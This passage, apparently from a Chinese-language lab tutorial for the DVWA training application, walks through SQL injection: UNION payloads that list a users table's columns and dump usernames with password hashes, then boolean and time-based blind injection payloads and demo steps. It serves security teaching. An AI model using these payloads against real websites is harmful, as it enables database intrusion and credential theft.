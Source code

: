 5. 找到表名 `users` 或类似，继续查询字段名：
   ```sql
   ' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name='users' -- 
   ```

6. 如果你看到字段 `username` 和 `password`，继续用：
   ```sql
   ' UNION SELECT null, concat(username, ':', password) FROM users -- 
   ```
   🔥 页面应显示用户名与密码 hash。

---

## 👀 二、盲注（Blind SQL Injection）

适用于**页面无明显输出**，但可以通过页面是否变化判断注入效果。DVWA 的：
> `SQL Injection (Blind)` 模块就是此类型。

---

### 🔍 布尔盲注 Payload

| Payload | 条件 | 页面结果 |
|---------|-------|-------------|
| `1' AND 1=1 -- ` | 真 | 页面正常 |
| `1' AND 1=2 -- ` | 假 | 页面不同或空白 |
| `1' AND SUBSTRING(database(),1,1)='d' -- ` | 判断数据库首字母是否为 d | 页面结果判断真假 |

> ✅ 成功关键：**前后页面内容有明显差异！**

---

### ⏱️ 时间盲注 Payload（若支持时间函数）

> 通过页面响应时间判断条件真假。

| Payload | 功能说明 |
|--------|-------------|
| `1' AND IF(1=1, SLEEP(3), 0) -- ` | 页面延迟 3 秒（条件成立） |
| `1' AND IF(SUBSTRING(user(),1,1)='r', SLEEP(5), 0) -- ` | 猜测当前用户第一位是否为 r |

---

### ✅ 推荐演示步骤（SQL Injection Blind 模块）

1. 点击 DVWA 菜单：**`SQL Injection (Blind)`**
2. 输入：
   ```sql
   1' AND 1=1 -- 
   ```
   页面正常显示
